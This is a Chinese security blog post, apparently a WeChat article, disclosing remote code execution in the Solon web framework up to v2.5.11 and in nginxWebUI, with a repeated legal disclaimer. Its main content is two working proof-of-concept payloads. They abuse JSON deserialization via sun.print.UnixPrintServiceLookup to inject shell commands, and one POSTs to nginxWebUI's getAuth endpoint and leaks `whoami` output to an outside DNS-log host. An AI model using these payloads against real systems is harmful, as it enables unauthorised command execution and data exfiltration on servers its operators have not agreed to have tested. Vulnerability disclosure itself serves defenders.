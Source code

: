 #  国产 Web 框架 Solon v2.5.11 RCE && nginxWebUI RCE   
 HK安全小屋   2025-06-02 15:54  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
漏洞描述：  
  
国产 Web 开发框架 Solon  <= v2.5.11 存在 rce 漏洞，该漏洞需要在 Linux 下 JDK 环境触发。触发条件是接收参数的任意路由。  
  
影响版本：  
  
国产 Web 框架 Solon  <= v2.5.11  
  
  
POC：  
```
{
"name": {
    "@type": "sun.print.UnixPrintServiceLookup", 
    "lpcFirstCom": [
        ";ping -nc 2 xxx.dnslog;", 
        ";ping -nc 2 xxx.dnslog;"
        ]
    }
}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI07H3HYKia4US2PDYtKAV7C7EictaBBomrMQ8p5eqZk0nhISY2gfZoDuLzXTH2ETMr4npoj2auOFQBA/640?wx_fmt=png&from=appmsg "")  
  
nginxWebUI 因使用了 solon 存在漏洞的版本 2.4.5 同样存在漏洞，官方下载 jar 复现：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI07H3HYKia4US2PDYtKAV7C7Dg56IOxMrQpy9cDVuWjcEOO4bvNb2KibDPdpXCxtVSRSiaFazyGGia0DQ/640?wx_fmt=png&from=appmsg "")  
  
影响 Linux 下 jdk 环境启动的 nginxWebUI：  
  
POC：  
```
  - method: POST
    path: /adminPage/login/getAuth
    headers:
      Content-Type: application/json
    body: |-
      {
      "name": {
          "@type": "sun.print.UnixPrintServiceLookup",
          "lpcFirstCom": [
              ";ping -nc 2 `whoami`.vscy8ohl.eyes.sh;", 
              ";ping -nc 2 `whoami`.vscy8ohl.eyes.sh;"
              ]
          }
      }
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI07H3HYKia4US2PDYtKAV7C7ANfYRVuLU6Zsq3POr9owlfge9RaVpvxicOuvgZDpSK1TxzFqFR4X7xg/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
